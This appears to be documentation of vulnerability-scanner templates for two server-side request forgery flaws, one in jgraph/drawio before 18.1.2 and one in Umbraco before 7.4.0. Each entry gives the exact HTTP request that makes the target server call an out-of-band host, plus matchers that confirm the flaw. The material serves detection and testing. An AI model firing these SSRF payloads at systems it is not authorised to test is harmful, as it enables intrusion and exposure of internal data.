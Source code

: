 - SSRF in /service endpoint in jgraph/drawio prior to 18.1.2. Exposure of Sensitive Information to an Unauthorized Actor in GitHub repository jgraph/drawio prior to 18.1.2.

- severity - high
- tags - huntr,cve,cve2022,drawio,ssrf,oast,oss,jgraph

## Requests

### Step - 1

```
GET /service/0/test.oast.me HTTP/2
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body, 'Interactsh Server')
  2. status_code == 200
- condition - and

---

# Umbraco <7.4.0- Server-Side Request Forgery

## Description

- Umbraco before version 7.4.0 contains a server-side request forgery vulnerability in feedproxy.aspx that allows attackers to send arbitrary HTTP GET requests via http://local/Umbraco/feedproxy.aspx?url=http://127.0.0.1:80/index.
- severity - high
- tags - cve,cve2015,ssrf,oast,umbraco

## Requests

- Method - GET

### URL

- {{BaseURL}}/Umbraco/feedproxy.aspx?url=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---